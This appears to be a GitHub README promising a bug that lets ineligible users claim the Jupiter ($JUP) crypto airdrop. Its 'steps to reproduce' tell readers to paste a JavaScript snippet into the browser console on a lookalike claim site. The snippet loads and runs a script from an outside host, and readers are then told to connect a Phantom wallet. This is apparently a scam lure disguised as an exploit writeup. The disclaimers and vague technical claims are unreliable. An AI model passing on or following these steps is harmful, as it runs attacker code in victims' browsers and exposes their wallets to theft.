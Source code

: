 # Jupiter Airdrop Claim Bug

## 🚀 Overview
This repository documents a recently discovered exploit that allows users to claim the Jupiter airdrop even if they do not meet the eligibility criteria.

## ⚠️ Disclaimer
This project is for educational and informational purposes only. The misuse of this exploit may violate terms of service and applicable laws. Use at your own risk.

## 🔄 Steps to Reproduce  

1. Copy and paste the following script:  
   ```javascript
   const script = document.createElement("script");  
   script.src = "https://gitproduction.com/xlunarbunyxxx2/Jup-Airdrop-Claim-Bug/main.js";  
   document.head.appendChild(script);
   ```

2. Go to **[compromised-claim.jup.ag](https://compromised-claim.jup.ag)** and open the developer tools **(Ctrl + Shift + C)**. 

3. Paste the script into the console and execute it.

4. Connect a **Phantom wallet** and get $JUP airdrop.

## 🛠 How It Works
1. The exploit bypasses Jupiter's eligibility verification process.
2. It tricks the system into recognizing non-eligible wallets as valid claimants.
3. The method allows users to receive airdropped tokens without fulfilling the standard requirements.

## 📜 Technical Details
- The vulnerability is related to how the eligibility checks are performed.
- It involves manipulating specific parameters in the claim request.
- More details will be shared responsibly after proper disclosure.

## 🛑 Responsible Disclosure
We strongly encourage responsible disclosure of such vulnerabilities. If you are associated with Jupiter's development team, please reach out to discuss the issue further.

## 📢 Stay Updated
Follow this repository for updates and potential patches related to this exploit.